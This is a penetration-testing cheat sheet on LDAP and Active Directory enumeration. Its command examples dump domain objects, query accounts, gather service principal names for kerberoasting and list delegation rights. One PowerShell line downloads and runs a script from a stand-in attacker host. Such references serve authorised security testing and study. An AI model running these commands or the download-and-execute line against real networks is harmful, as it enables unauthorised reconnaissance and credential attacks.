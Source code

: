 # LDAP/389/636 (TCP)

## Questions to ask yourself
  *  Is the LDAP server also the domain controller?
  *  How many machines/users exist in the domain?
      *  Which are high-value targets?

## Things to remember
  *  LDAP [distinguished names](https://ldap.com/ldap-dns-and-rdns/) describe a position in the directory heirarchy
  *  List of some [famous LDAP filters](https://www.ldapexplorer.com/en/manual/109050000-famous-filters.htm) for easy searching

## Useful tools
  *  [`nmap`](https://nmap.org/) for various NSE enum scripts
  *  [`ldapdomaindump`](https://github.com/dirkjanm/ldapdomaindump) for dumping domain objects
  *  [`ldapsearch`](https://linux.die.net/man/1/ldapsearch) for precise LDAP searching
  *  Custom [`Invoke-LDAPSearch.ps1`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Privilege%20Escalation/Windows/Powershell%20Scripts/Invoke-LDAPSearch.ps1) for searching LDAP from `powershell`
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) and [`Get-SPN.ps1`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for gathering service principal names
  *  [`impacket-findDelegation`](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) for automatically gathering delegation permissions

## Additonal NSE enumeration
  *  `nmap` [LDAP NSE scripts](https://nmap.org/search/?q=ldap) without credentials will not yield much
      *  See [`ldap-search.nse`](https://nmap.org/nsedoc/scripts/ldap-search.html) docs for more examples

```
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap*"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.maxobjects=-1'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.qfilter=users,ldap.attrib=sAMAccountName,ldap.maxobjects=-1'
```

## LDAP domain dump
  *  `ldapdomaindump` for reading all objects from an LDAP server
      *  Create a new directory for this, outputs a lot of files
      *  Likely requires credentials

```
ldapdomaindump 10.0.0.1
ldapdomaindump ldapserver.example.com
ldapdomaindump -u "bob" -p "password" 10.0.0.1
ldapdomaindump -u "bob" -p "password" ldapserver.example.com
```

## LDAP search
  *  [`hacktricks`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) for more/better examples
  *  `ldapsearch` for finding specific objects from an LDAP server
  *  Custom powershell script `Invoke-LDAPSearch.ps1` for sending LDAP queries
      *  Used to perform LDAP searches from a domain-joined machine
      *  No additional pivot tools needed

```
ldapsearch -x -H ldap://10.0.0.1 -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com' samaccounttype=805306368
ldapsearch -x -H ldap://ldapserver.example.com -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://ldapserver.example.com -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
```

```
PS > Invoke-LDAPSearch -connect "LDAP://10.0.0.1/DC=example,DC=com"
PS > Invoke-LDAPSearch -filter "samaccounttype=805306368"
PS > Invoke-LDAPSearch -username "bob" -password "pass123"
```

## Gathering SPNs
  *  Hunt for target services by querying for [service principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
  *  Useful preparation for [kerberoasting](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)
  *  `impacket-GetUserSPNs` for gathering service principal names from linux
  *  `Get-SPN.ps1` or `Invoke-LDAPSearch.ps1` can be used to enumerate SPNs without requesting tickets

```
impacket-GetUserSPNs example.com/bob:password -dc-ip 10.0.0.1
```

```
PS > IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Get-SPN.ps1');
PS > Get-SPN -type service -search "*"
```

```
PS > Invoke-LDAPSearch "serviceprincipalname=*"
```

## Delegation permissions
  *  Hunt for user/computer objects configured with [delegation permissions](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Delegation.md)
  *  Enumerating delegation relies on specific object attributes being readable
      *  [`useraccountcontrol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) attribute to [check what delegations are enabled](https://www.techjutsu.ca/uac-decoder) 
      *  [`msDS-AllowedToDelegateTo`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtodelegateto) to show SPNs allowed for constrained delegation
  *  `ldapsearch` and `impacket` scripts for enumerating delegation

```
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname useraccountcontrol
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' msDS-AllowedToDelegateTo=* samaccountname msDS-AllowedToDelegateTo
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' msDS-AllowedToActOnBehalfOfOtherIdentity=* samaccountname msDS-AllowedToActOnBehalfOfOtherIdentity
```

```
impacket-findDelegation example.com/bob:password -dc-ip 10.0.0.1
impacket-rbcd -delegate-to 'DC$' -dc-ip 10.0.0.1 -action read example.com/bob:password
```
